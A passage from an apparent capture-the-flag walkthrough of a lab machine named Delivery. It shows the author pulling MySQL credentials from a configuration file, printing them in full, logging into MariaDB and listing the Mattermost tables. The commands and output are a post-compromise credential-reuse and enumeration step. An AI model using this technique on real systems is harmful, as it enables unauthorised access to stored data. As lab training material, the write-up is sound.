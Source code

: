 Now let's view the file if we can get any creds.

![](2021-02-12-21-25-54.png)

Voila we got mysql creds **mmuser:Crack_The_MM_Admin_PW**

Let's access the mysql databases.

```console
maildeliverer@Delivery:/tmp$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 162
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
```